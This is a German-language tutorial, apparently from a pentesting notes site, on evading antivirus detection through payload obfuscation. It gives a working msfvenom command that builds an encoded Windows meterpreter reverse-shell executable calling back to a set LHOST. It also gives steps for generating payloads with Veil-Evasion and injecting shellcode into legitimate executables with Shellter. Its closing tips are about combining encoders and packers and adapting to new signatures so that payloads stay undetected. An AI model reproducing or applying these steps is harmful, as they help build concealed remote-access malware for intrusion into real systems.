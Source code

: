 # Antivirus-Umgehung durch Payload-Obfuskation

### 1. Einführung

Moderne Antivirus-Software verwendet verschiedene Mechanismen wie signaturbasierte Erkennung, heuristische Analysen und Verhaltensüberwachung, um Schadsoftware zu identifizieren. Standardisierte Payloads weisen oft charakteristische Muster auf, die von diesen Systemen erkannt werden. Durch Payload-Obfuskation wird der Code so verändert, dass seine ursprüngliche Signatur verschleiert wird, ohne seine Funktionalität zu beeinträchtigen.

***

### 2. Wichtige Konzepte

* **Obfuskation:**\
  Der Code wird verändert, sodass er schwieriger zu analysieren und zu erkennen ist, ohne seine eigentliche Funktion zu verlieren.
* **Encoding:**\
  Der Payload wird mit Encodern umgewandelt, sodass der ursprüngliche Code nicht mehr direkt im Klartext vorliegt.
* **Packing:**\
  Der Payload wird in einem komprimierten oder verschlüsselten Container verpackt, was statische Analysen erschwert.
* **Polymorphismus:**\
  Jede Erzeugung des Payloads sieht anders aus, selbst wenn die zugrundeliegende Funktionalität gleich bleibt, was wiederkehrende Muster vermeidet.

***

### 3. Tools und Techniken

#### 3.1. Nutzung von msfvenom mit Encodern

Mit **msfvenom** kannst du einen Payload erstellen und diesen gleichzeitig mittels Encoder verschleiern. Ein Beispiel:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.53.197 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```

* **-p:** Legt den Payload fest (hier `windows/meterpreter/reverse_tcp`).
* **LHOST / LPORT:** Definiert die Verbindungsparameter.
* **-e x86/shikata\_ga\_nai:** Verwendet den Shikata Ga Nai Encoder, der den Code mehrmals (mit `-i 3`) verschleiert.
* **-f exe:** Gibt das Ausgabeformat an (hier Windows-Executable).
* **-o payload.exe:** Speichert den Payload als Datei.

> **Hinweis:** Encodierung allein kann in manchen Fällen ausreichen, um signaturbasierte Erkennungen zu umgehen – sie ist jedoch kein Allheilmittel.

***

#### 3.2. Veil-Evasion

**Veil-Evasion** ist ein Framework, das verschiedene Techniken der Obfuskation und Verschlüsselung kombiniert, um Payloads zu erstellen, die von vielen Antivirenlösungen nicht erkannt werden.

1.  **Installation:**\
    Klone das Repository und installiere Veil:

    ```bash
    git clone https://github.com/Veil-Framework/Veil.git
    cd Veil
    ./install.sh
    ```
2.  **Payload generieren:**\
    Starte Veil-Evasion und wähle den gewünschten Payload-Typ:

    ```bash
    veil-evasion -p windows/meterpreter/reverse_tcp -o payload.exe
    ```

    Das Framework bietet zahlreiche Optionen und Einstellungen, um die Erkennung weiter zu erschweren.

***

#### 3.3. Custom Obfuscation mit Shellter

**Shellter** ist ein dynamischer Shellcode-Injector und Obfuscator für Windows-Executable-Dateien. Er ermöglicht die Injektion von Payloads in bestehende Anwendungen, wobei der Code dynamisch obfuskiert wird.

1.  **Starten von Shellter:**\
    Führe Shellter im interaktiven Modus aus:

    ```bash
    shellter
    ```
2. **Modus auswählen:**\
   Wähle zwischen dem automatischen oder manuellen Modus. Im automatischen Modus wird der Payload in eine ausgewählte Executable injiziert und verschleiert.
3. **Payload-Injektion:**\
   Folge den Anweisungen von Shellter, um deinen Payload in eine bestehende Windows-Executable einzubetten.

***

### 4. Praktische Tipps zur Verbesserung der Obfuskation

* **Kombiniere mehrere Techniken:**\
  Nutze sowohl Encoder als auch Packer, um den Payload mehrfach zu verschleiern.
* **Regelmäßige Tests:**\
  Überprüfe in virtuellen Umgebungen mit aktueller Antivirus-Software, ob deine obfuskierten Payloads erkannt werden.
* **Variabilität einbauen:**\
  Verwende polymorphe Techniken, um sicherzustellen, dass jede Payload-Erzeugung einzigartig ist.
* **Aktualisierung:**\
  Antivirus-Software wird kontinuierlich verbessert. Passe deine Obfuskationstechniken regelmäßig an, um nicht von neuen Signaturen erwischt zu werden.

***

### 6. Fazit

Payload-Obfuskation stellt eine wirksame Methode dar, um den statischen und heuristischen Erkennungsmethoden moderner Antivirus-Software zu entgehen. Durch den Einsatz von Tools wie msfvenom, Veil-Evasion und Shellter kannst du Payloads erstellen, die schwerer zu erkennen sind. Dennoch erfordert der kontinuierliche Fortschritt in der Antiviren-Technologie eine ständige Anpassung und Validierung deiner Methoden.
